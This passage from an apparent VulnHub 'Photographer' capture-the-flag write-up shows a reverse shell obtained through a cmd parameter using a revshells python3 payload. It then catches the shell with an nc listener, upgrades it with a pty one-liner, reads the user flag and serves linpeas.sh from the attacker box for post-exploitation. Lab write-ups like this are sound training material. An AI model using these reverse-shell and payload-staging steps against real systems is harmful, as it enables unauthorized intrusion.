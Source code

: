 <br />
Use the python3 payload from revshells and paste in into the cmd parameter.  Execute it.  Check the listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/vulnhub/photograph]
└─$ sudo nc -nlvp 443                         
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.0.0.14] from (UNKNOWN) [10.0.0.15] 41394
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@photographer:/var/www/html/koken/storage/originals/7d/17$
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
cat user.txt
<redacted>
www-data@photographer:/home/daisa$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:2f:84:a3 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.15/24 brd 10.0.0.255 scope global dynamic enp0s3
       valid_lft 589sec preferred_lft 589sec
    inet6 fe80::6c05:5fdd:681b:cd25/64 scope link 
       valid_lft forever preferred_lft forever
```
{% endraw %}

<br />
Copy linpeas.sh into the local working folder and start a python web server to serve the script.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/vulnhub/photograph]
└─$ cp `locate linpeas.sh` .                                                            
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/vulnhub/photograph]
└─$ python3 -m http.server               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}
